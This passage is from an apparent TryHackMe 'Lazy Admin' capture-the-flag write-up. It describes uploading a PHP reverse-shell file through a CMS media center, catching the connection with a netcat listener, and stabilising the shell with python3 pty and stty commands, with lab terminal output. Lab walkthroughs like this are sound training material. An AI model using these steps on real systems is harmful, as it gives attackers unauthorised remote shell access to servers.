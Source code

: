 		1. Go to the `media center` where you can upload our [malicious file](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Lazy%20Admin/web/exploit/revshell.php5).
		\
		![](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Lazy%20Admin/images/mc.png)
		\
		2. Can be invoked from the subdirectory as `/attachment/revshell.php` to invoke the uploaded revshell.
		\
		![](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Lazy%20Admin/images/revshell.png)
		\

## INITIAL ACCESS

1. We get a reverse shell on our `netcat listener`. Let's stabilize it to make it easier to operate. *python3* is present. Let's use it.

```bash
$ nc -lnvvp 1337                                                             
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.162.148] 47862
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 15:16:19 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/Easy/Lazy Admin/web/exploit]
└─$ stty raw -echo;fg                    
[1]  + continued  nc -lnvvp 1337

www-data@THM-Chal:/$ export TERM=xterm
www-data@THM-Chal:/$
```
